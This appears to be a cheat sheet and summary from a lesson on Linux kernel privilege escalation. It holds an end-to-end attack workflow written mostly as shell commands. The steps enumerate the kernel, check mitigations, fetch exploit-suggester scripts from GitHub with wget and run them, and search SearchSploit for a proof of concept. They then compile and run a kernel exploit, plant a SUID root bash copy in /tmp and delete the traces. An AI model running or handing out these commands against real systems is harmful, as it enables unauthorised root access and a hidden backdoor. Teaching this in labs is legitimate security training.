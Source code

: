 # Minimal cheat sheet (one-screen flow)
```
# 1) Enumerate
id; uname -a
cat /etc/os-release 2>/dev/null || cat /etc/issue
getconf LONG_BIT; arch
dpkg -l | egrep 'linux-image|linux-headers' 2>/dev/null || rpm -qa | egrep 'kernel|kernel-core|kernel-devel'

# 2) Mitigations
grep -iE 'smap|smep' /proc/cpuinfo
dmesg | grep -iE 'smap|smep|randomize' 2>/dev/null
sysctl kernel.kptr_restrict kernel.perf_event_paranoid 2>/dev/null

# 3) Suggesters
cd /dev/shm 2>/dev/null || cd /tmp
wget -q https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh && chmod +x les.sh && ./les.sh
wget -q https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl -O les2.pl && perl les2.pl

# 4) Search and fetch a PoC (example uses SearchSploit)
ver=$(uname -r | cut -d- -f1); searchsploit "Linux Kernel $ver" "local privilege escalation"

# 5) Build (on target if possible; else cross-compile static on attacker)
gcc exploit.c -O2 -static -o exploit 2>/dev/null || gcc exploit.c -O2 -o exploit
chmod +x exploit

# 6) Run & verify
./exploit
id

# 7) Optional: SUID shell (lab use)
cp /bin/bash /tmp/bashroot && chmod u+s /tmp/bashroot && /tmp/bashroot -p

# 8) Cleanup
rm -f exploit exploit.c les.sh les2.pl
```

# Summary
This lesson covers the end-to-end process of using Linux kernel exploits for privilege escalation: enumerate precise kernel/distro details, assess mitigations, shortlist candidate CVEs using exploit-suggester tools, locate reliable PoCs with SearchSploit, compile locally or cross-compile static binaries, transfer and execute carefully, validate root access, and clean up. Kernel LPEs are powerful but risky—verify vendor backports, choose PoCs that handle mitigations like SMEP/SMAP, and favor minimally invasive techniques, especially outside lab environments.